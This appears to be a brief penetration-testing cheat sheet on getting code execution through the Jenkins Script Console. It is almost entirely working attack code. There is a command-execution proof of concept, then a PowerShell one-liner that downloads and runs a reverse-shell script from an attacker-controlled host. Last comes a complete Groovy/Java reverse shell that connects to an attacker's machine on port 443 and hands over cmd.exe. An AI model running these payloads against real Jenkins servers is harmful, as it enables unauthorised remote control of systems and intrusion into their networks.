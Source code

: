 
Manage Jenkins > Script Console

#### POC:
```jenkins - web app
println "cmd.exe /c systeminfo".execute().text
```

#### Powershell rev shell:
Manage Jenkins > Script Console
```jenkins - web app
def command = "powershell -c iex(new-object net.webclient).downloadstring(‘http://$KALI:80/Invoke-PowerShellTcp.ps1')"  
def proc = command.execute()  
println(proc.in.text)
```

#### CMD rev shell:
Manage Jenkins > Script Console
```jenkins - web app
String host="$KALI";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


